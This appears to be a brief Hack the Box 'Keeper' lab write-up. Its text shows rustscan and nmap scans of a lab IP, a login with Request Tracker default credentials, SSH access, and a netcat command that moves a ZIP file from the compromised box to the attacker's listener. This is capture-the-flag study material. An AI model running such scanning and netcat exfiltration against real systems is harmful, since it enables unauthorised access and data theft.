 # Hack the Box - Keeper

```
rustscan -a 10.10.11.227 -r 0-65535 --ulimit 5000 
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/66939215-b494-486c-91cf-c24c5845167d)

```
nmap -sV -sC -A --min-rate 1000 10.10.11.227 -p 22,80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d9b95b35-fff7-471f-9257-09aa865cc3f9)

## HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f306fea0-644b-4415-b2d4-d5a5041ce776)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad643d0d-40bb-45e9-96a4-922da6d26d45)

Request Tracker Default Credentials
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cf2f5581-c7de-4cb1-8f59-a469adf05737)

Dashboard
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bc5655f3-6405-4a33-a712-a8941dcafc80)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4bb08dfa-b361-4be2-8d75-66e7c7f6f7c7)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/22b263dc-63ec-49df-baf0-d33b2a0af87c)

SSH
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b612ec6c-ad5c-4eab-8ffe-1278d26e3cf9)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f50378d9-1cdc-4a82-9759-03579c745ba9)

Sending the ZIP file:
```
nc -N 10.10.14.61 9090 < RT30000.zip
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/93b150a1-152b-40f1-aa39-af4065c1e762)

Receiving the ZIP file:
```
nc -l -p 9090 > keeper.zip
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8b230c17-acee-4527-9086-cb9e3185991a)


